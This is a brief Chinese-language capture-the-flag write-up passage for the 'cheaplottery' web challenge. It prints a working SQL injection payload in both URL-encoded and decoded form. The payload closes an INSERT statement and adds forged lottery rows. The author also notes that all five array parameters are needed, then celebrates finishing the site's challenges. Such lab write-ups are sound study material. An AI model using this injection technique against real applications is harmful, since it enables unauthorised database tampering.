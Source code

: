最后payload

```http://cheaplottery.solveme.peng.kr/index.php?lottery%5BA%5D=1'),('%C3%A0%C4%8F%E1%B9%81%C3%8D%C3%B1_192.34.62.236','1522763149','1,1,1,1,1'),('%C4%9D%C3%9B%C3%A8%C5%9B%C5%A3_192.34.62.236','1522763149','1,1,1,1,1')%23&lottery%5BB%5D=&lottery%5BC%5D=&lottery%5BD%5D=&lottery%5BE%5D=```

url解码粗来是这样滴

``http://cheaplottery.solveme.peng.kr/index.php?lottery[A]=1'),('àďṁÍñ_192.34.62.236','1522763149','1,1,1,1,1'),('ĝÛèśţ_192.34.62.236','1522763149','1,1,1,1,1')#&lottery[B]=&lottery[C]=&lottery[D]=&lottery[E]=``

别忘惹它有传入数组的判断~所以五个都要传

至此这个可爱哒网站上的web就都ak啦~喜大普奔~完结撒花~~~